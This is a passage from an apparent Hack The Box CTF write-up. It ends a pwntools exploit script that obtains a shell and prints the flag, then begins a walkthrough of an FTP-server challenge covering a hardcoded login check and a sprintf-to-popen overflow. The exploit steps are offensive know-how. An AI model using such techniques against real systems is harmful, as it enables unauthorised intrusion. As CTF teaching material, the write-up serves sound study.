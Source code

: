 ```python
    io.sendline(b'1')
    io.sendline(b'/bin/sh')
    io.sendline(b'1337')
    io.sendline(b'3')
    io.sendline(b'0')
    io.sendline(b'I WANT SHELL')
    io.interactive()
    
if __name__ == '__main__':
    main()
```

Which gives us shell and the flag :) 

```
HTB{w3_sHoulD_1n1t1at3_a_bug_bounty_pr0gram}
```

### \[Pwn\] Insider - (21 Solves)

This challenge is a really really long binary which implements a full FTP server. There's quite a fair bit of reversing to go about (which I shall not get into here), but the general flow is to open it in IDA and rename and mark interesting functions.

The first part is to access the FTP server, which requires both the username and password via the USER and PASS command. The binary hardcodes the username and password in a simple `strcmp`, and this can be gleaned from the decompilation. 

```c
_BOOL8 __fastcall sub_2A22(const char *a1)
{
  return strcmp(a1, ";)") == 0;
}
```

With the username and password, we can move on to other interesting functions in the FTP server. Two interesting functions can be noted. First, `case 16` has a `sprintf`, which might overflow if your current working directory is long enough and the buffer `s` is not big enough:

```c
case 16:
    if ( v131 >= 0 )
    {
        getcwd(buf, 0x1000uLL);
        sprintf(s, "ls -l %s", buf);
        v122 = popen(s, "r");
        sub_2449(v122);
        sub_2379("%d Transfer completed \r\n", 226LL, v27, v28, v29, v30);
        pclose(v122);
        v131 = -1;
    }
    if ( v132 >= 0 )
        v132 = -1;
    break;
```
